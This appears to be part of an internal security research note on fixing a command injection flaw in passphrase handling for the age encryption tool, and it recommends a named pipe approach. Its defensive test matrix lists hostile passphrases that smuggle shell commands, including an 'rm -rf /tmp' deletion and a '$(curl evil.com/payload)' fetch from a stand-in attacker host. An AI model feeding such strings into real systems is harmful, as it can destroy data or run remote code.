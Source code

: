 ## Security Validation Tests

### Required gitsim Test Cases
1. **Injection Attack Prevention**: Passphrase with shell metacharacters
2. **Special Character Handling**: Unicode, spaces, quotes in passphrases
3. **Process Isolation**: Verify no passphrase leakage in process lists
4. **File Permissions**: Validate temporary file security (600 permissions)
5. **Cleanup Verification**: Ensure all temporary artifacts are removed

### Attack Vector Test Matrix
```bash
# Test passphrases that would exploit current vulnerability
dangerous_passphrases=(
    "'; rm -rf /tmp; echo 'pwned"
    "\$(/bin/echo injection)"
    "pass\`id\`word"
    "a'b\"c\$d;e|f&g"
    "$(curl evil.com/payload)"
)
```

## Strategic Considerations

### Why This Matters Beyond TASK-001-FIX
1. **Architectural Precedent**: This security pattern will be used throughout ignition system
2. **Trust Foundation**: Security of entire ignition hierarchy depends on these functions
3. **Code Review Standard**: Sets security bar for all future TTY interactions
4. **Performance Baseline**: Must maintain Plan X benchmark requirements

### Future Research Threads
- **Thread A**: Hardware security module integration for passphrase protection
- **Thread B**: Zero-knowledge proof systems for passphrase verification
- **Thread C**: Quantum-resistant key derivation using secure TTY patterns

## Conclusion

The **Named Pipe Strategy** represents the optimal balance of security, performance, and philosophical consistency with the TTY subversion approach. It eliminates the command injection vulnerability while preserving the elegant Unix solution that makes age behave as intended.

**Implementation Priority**: IMMEDIATE - Blocking security issue resolution  
**Integration Effort**: ~2 hours development + 1 hour testing  
**Risk Mitigation**: Eliminates CRITICAL security vulnerability  

*This research supports the team's mission to deliver production-ready ignition security with zero compromises on safety or performance.*

---
**Research completed by @RRR**  
**Next Action**: Recommend Named Pipe Strategy to @LSE for TASK-001-FIX implementation**